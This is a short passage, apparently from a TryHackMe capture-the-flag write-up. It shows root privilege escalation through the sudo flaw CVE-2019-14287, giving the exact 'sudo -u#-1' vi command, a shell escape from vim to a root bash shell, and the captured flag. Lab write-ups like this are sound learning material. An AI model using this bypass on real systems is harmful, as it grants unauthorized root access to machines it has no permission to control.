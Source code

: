 2. `id -u`: 

- Type `id -u` in the terminal.
- If the output is `0`, you have root privileges.


honestly I search around for an exploit related to the sudo version of the box but I couldn't find anything that worked. I had to reference a writeup to find

https://www.exploit-db.com/exploits/47502

CVE 2019-14287 

run the following:

```bash
sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt
```

now you are in vim editor.
press `esc` key and type a : (colon) to execute commands

run !whoami  in vim

and now you can see you are root

so now we can run the following command in the vim editor:

!/bin/bash

now we have a root shell.

```bash
find / -name root.txt 2>/dev/null
cat /root/root.txt
```

now we have the flag

THM{8d6f163a87a1c80de27a4fd61aef0f3a0ecf9161}


